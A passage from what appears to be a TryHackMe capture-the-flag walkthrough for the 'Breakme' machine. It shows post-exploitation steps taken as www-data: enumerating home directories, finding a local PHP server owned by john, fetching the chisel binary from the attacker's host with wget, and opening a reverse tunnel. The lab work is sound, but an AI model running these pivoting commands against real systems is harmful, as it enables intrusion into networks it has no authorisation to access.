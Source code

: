 ```bash
$ cd /home
$ ls -la
total 32
drwxr-xr-x  5 root   root  4096 Feb  3  2024 .
drwxr-xr-x 18 root   root  4096 Aug 17  2021 ..
drwxr-xr-x  4 john   john  4096 Aug  3  2023 john
drwx------  2 root   root 16384 Aug 17  2021 lost+found
drwxr-x---  4 youcef john  4096 Aug  3  2023 youcef
$ cd john
$ ls -la
total 32
drwxr-xr-x 4 john john 4096 Aug  3  2023 .
drwxr-xr-x 5 root root 4096 Feb  3  2024 ..
lrwxrwxrwx 1 john john    9 Aug  3  2023 .bash_history -> /dev/null
-rw-r--r-- 1 john john  220 Jul 31  2023 .bash_logout
-rw-r--r-- 1 john john 3526 Jul 31  2023 .bashrc
drwxr-xr-x 3 john john 4096 Jul 31  2023 .local
-rw-r--r-- 1 john john  807 Jul 31  2023 .profile
drwx------ 2 john john 4096 Feb  4  2024 internal
-rw------- 1 john john   33 Aug  3  2023 user1.txt
$ cat user1.txt
cat: user1.txt: Permission denied
```

---

### Shell as John

While checking processes running by user john , discovered that john is running a php development server locally.

```bash
www-data@Breakme:/home/john$ ps -aux | grep john
ps -aux | grep john
john         500  0.0  1.0 193800 20668 ?        Ss   09:24   0:00 /usr/bin/php -S 127.0.0.1:9999
```

Here, we can use chisel for port forwarding.

So, first of all start chisel in server mode on our kali machine.

```bash
┌──(ghost㉿kali)-[~/tryhackme/breakme]
└─$ chisel server -p 9001 --reverse
2025/07/07 10:34:38 server: Reverse tunnelling enabled
2025/07/07 10:34:38 server: Fingerprint KyxSHojL+8bi144cF5X4vICjb/wAtQ41H7ZhnJmmHxM=
2025/07/07 10:34:38 server: Listening on http://0.0.0.0:9001
```

After that, transfer chisel on target machine and run it in client mode, forwarding port 9999.

```bash
www-data@Breakme:/tmp$ wget http://10.17.87.131/chisel
wget http://10.17.87.131/chisel
--2025-07-07 10:45:18--  http://10.17.87.131/chisel
Connecting to 10.17.87.131:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9371800 (8.9M) [application/octet-stream]
Saving to: ‘chisel’

chisel              100%[===================>]   8.94M   161KB/s    in 50s     

2025-07-07 10:46:09 (182 KB/s) - ‘chisel’ saved [9371800/9371800]

www-data@Breakme:/tmp$ chmod +x chisel
chmod +x chisel
www-data@Breakme:/tmp$ chisel client 10.17.87.131:9001 R:9999:127.0.0.1:9999
```